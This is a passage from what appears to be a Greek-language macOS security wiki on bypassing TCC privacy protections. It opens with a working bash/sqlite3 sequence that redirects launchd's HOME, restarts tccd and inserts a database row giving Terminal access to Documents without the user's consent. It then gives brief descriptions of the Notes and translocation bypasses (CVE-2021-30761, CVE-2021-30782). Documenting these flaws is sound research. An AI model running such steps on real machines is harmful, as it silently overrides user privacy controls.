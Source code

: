 ```bash
$> cd "/tmp/tccbypass/Library/Application Support/com.apple.TCC/"
# set launchd $HOME to this temporary directory
$> launchctl setenv HOME /tmp/tccbypass
# restart the TCC daemon
$> launchctl stop com.apple.tccd && launchctl start com.apple.tccd
# print out contents of TCC database and then give Terminal access to Documents
$> sqlite3 TCC.db .dump
$> sqlite3 TCC.db "INSERT INTO access
VALUES('kTCCServiceSystemPolicyDocumentsFolder',
'com.apple.Terminal', 0, 1, 1,
X'fade0c000000003000000001000000060000000200000012636f6d2e6170706c652e5465726d696e616c000000000003',
NULL,
NULL,
'UNUSED',
NULL,
NULL,
1333333333333337);"
# list Documents directory without prompting the end user
$> ls ~/Documents
```
### CVE-2021-30761 - Σημειώσεις

Οι Σημειώσεις είχαν πρόσβαση σε προστατευμένες τοποθεσίες TCC, αλλά όταν δημιουργείται μια σημείωση αυτή δημιουργείται σε μια **μη προστατευμένη τοποθεσία**. Έτσι, θα μπορούσατε να ζητήσετε από τις Σημειώσεις να αντιγράψουν ένα προστατευμένο αρχείο σε μια σημείωση (σε μια μη προστατευμένη τοποθεσία) και στη συνέχεια να έχετε πρόσβαση στο αρχείο:

<figure><img src="../../../../../.gitbook/assets/image (6) (1) (3).png" alt=""><figcaption></figcaption></figure>

### CVE-2021-30782 - Μετακίνηση

Το δυαδικό `/usr/libexec/lsd` με τη βιβλιοθήκη `libsecurity_translocate` είχε το entitlement `com.apple.private.nullfs_allow` το οποίο του επέτρεπε να δημιουργήσει **nullfs** mount και είχε το entitlement `com.apple.private.tcc.allow` με **`kTCCServiceSystemPolicyAllFiles`** για πρόσβαση σε κάθε αρχείο.

Ήταν δυνατόν να προστεθεί το χαρακτηριστικό καραντίνας στο "Library", να κληθεί το XPC service **`com.apple.security.translocation`** και στη συνέχεια να αντιστοιχιστεί το Library στο **`$TMPDIR/AppTranslocation/d/d/Library`** όπου όλα τα έγγραφα μέσα στο Library θα μπορούσαν να **προσπελαστούν**.
